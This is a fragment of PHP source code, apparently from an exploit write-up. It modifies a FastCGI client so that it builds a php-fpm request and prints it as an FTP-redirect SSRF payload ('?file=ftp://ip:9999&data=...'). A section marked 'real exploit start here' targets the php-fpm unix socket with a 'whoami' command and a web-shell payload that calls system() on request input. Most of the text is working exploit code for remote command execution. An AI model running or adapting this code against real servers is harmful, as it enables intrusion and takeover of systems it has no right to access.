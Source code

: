 ```
    `{`
        $response = '';
//        $this-&gt;connect();
        $request = $this-&gt;buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this-&gt;_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key =&gt; $value) `{`
            $paramsRequest .= $this-&gt;buildNvpair($key, $value);
        `}`
        if ($paramsRequest) `{`
            $request .= $this-&gt;buildPacket(self::PARAMS, $paramsRequest);
        `}`
        $request .= $this-&gt;buildPacket(self::PARAMS, '');
        if ($stdin) `{`
            $request .= $this-&gt;buildPacket(self::STDIN, $stdin);
        `}`
        $request .= $this-&gt;buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999&amp;data='.urlencode($request));
//        fwrite($this-&gt;_sock, $request);
//        do `{`
//            $resp = $this-&gt;readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) `{`
//                $response .= $resp['content'];
//            `}`
//        `}` while ($resp &amp;&amp; $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) `{`
//            throw new Exception('Bad request');
//        `}`
//        switch (ord($resp['content']`{`4`}`)) `{`
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        `}`
    `}`
`}`
?&gt;
&lt;?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) `{`
//    die("Check your input\n");
//`}`
//if (!isset($_REQUEST['filepath'])) `{`
//    $filepath = __FILE__;
//`}`else`{`
//    $filepath = $_REQUEST['filepath'];
//`}`

$filepath = "/var/www/html/add_api.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "&lt;?php system(\$_REQUEST['command']); phpinfo(); ?&gt;"; // php payload -- Doesnt do anything
```